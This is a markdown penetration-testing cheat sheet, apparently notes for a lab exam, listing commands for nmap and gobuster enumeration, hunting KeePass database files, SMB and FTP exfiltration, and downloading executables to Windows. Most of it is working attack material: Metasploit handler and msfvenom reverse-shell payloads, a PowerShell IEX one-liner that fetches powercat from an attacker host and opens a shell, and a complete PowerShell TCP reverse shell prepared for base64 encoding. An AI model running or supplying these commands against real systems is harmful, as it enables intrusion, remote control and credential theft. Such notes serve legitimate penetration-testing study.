 # initial enumeration

```
sudo nmap -p80 --script=http-enum <ip>
nmap 192.168.206.47
nmap -sT -A 192.168.206.47
nmap --script http-headers 192.168.206.47
gobuster dir -u http://192.168.206.47:80 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
# find files on windows powershell
`Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`

# download a file from an FTP server
```
ftp itadmin@192.168.248.202
> binary
> passive (turn it off)
> ls
> get c:/Users/itadmin/Desktop/flag.txt
```
# find files by name
`find / -name nc.exe 2>/dev/null`

# Download from windows (with authentication)
`impacket-smbserver -smb2support -user rdp_admin -password P@ssw0rd! smb smb `
# from windows - cmd
```
net use \\192.168.45.181\smb
copy \inetpub\wwwroot\umbraco\netsh_exercise_client.bin \\192.168.45.181\smb
```
# powershell - download files we are servin up from a kali python server from kali to windows
`iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe`

# Download from kali to windows - powershell
`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.194/SpotifySetup.exe', 'SpotifySetup.exe')`

# reverse shell generator
https://www.revshells.com/

# windows reverse shells
# is it executed by cmd or powershell?
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

# metasploit reverse shell
```
>ms6
use exploit/multi/handler
set lhost 192.168.45.181
set lport 4444
set payload windows/metrepeter/reverse_tcp
run
```

# oneliner to run shell
`msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.194;set LPORT 443;run;"`

# Generate a payload
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.181 LPORT=4444 -f exe > reverse.exe`

# for use with CMD
`powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.181/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell`

# if you need to base64 encode it from kali
`pwsh` # to run powershell on kali
# in powershell
```
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.219",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```